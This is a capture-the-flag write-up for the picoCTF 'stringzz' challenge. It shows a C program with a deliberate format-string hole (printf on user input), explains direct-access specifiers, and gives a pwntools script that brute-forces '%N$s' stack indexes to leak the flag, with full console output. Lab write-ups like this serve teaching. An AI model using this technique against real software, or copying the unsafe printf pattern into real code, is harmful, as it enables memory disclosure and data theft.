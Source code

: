 # stringzz
Binary Exploitation, 300 points

## Description:
> Use a format string to pwn this program and get a flag.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);
 
}
```

## Solution: 

The flag is somewhere in the heap, but there's a pointer to it on the stack. So, if we locate it and send it to `printf` as a string (`%s`), we'll get the flag. We just have to go far enough down the stack.

We'll use the "format string direct access" syntax to access the n'th variable on the stack and cast it to a string pointer.

The syntax starts with `%`, then an index, then `$` and then the format specifier. So, `%17$x` would jump to the seventeenth member of the stack and print the value in hex format.

We'll scan the stack using:
```
%0$s
%1$s
...
```

Sometimes, the value on the stack can't be dereferenced as a string (the easiest example is the value of 0x0, which is also NULL). However, we don't mind, that isn't our flag pointer and even if the program crashes, we'll move on to our next attempt.

The script:

```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/stringzz_2_a90e0d8339487632cecbad2e459c71c4/vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

import os

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

index = 0
while True:
    log.info("Trying index {}".format(index))
    with context.local(log_level='ERROR'): 
        io = start()
        io.sendlineafter("input whatever string you want; then it will be printed back:\n", "%{}$s".format(index))
        res = io.recvall()
    if "picoCTF" in res:
        log.success(res)
        break
    index += 1
```

Output:

```console
root@kali:/media/sf_CTFs/pico/stringzz# python exploit.py
[*] '/media/sf_CTFs/pico/stringzz/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.hGOzj1x5Fr'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/stringzz_2_a90e0d8339487632cecbad2e459c71c4'
[*] Trying index 0
[*] Trying index 1
[*] Trying index 2
[*] Trying index 3
[*] Trying index 4
[*] Trying index 5
[*] Trying index 6
[*] Trying index 7
[*] Trying index 8
[*] Trying index 9
[*] Trying index 10
[*] Trying index 11
[*] Trying index 12
[*] Trying index 13
[*] Trying index 14
[*] Trying index 15
[*] Trying index 16
[*] Trying index 17
[*] Trying index 18
[*] Trying index 19
[*] Trying index 20
[*] Trying index 21
[*] Trying index 22
[*] Trying index 23
[*] Trying index 24
[*] Trying index 25
[*] Trying index 26
[*] Trying index 27
[*] Trying index 28
[*] Trying index 29
[*] Trying index 30
[*] Trying index 31
[*] Trying index 32
[*] Trying index 33
[*] Trying index 34
[*] Trying index 35
[*] Trying index 36
[*] Trying index 37
[+]
    Now
    your input
    will be printed:

    picoCTF{str1nG_CH3353_166b95b4}
```
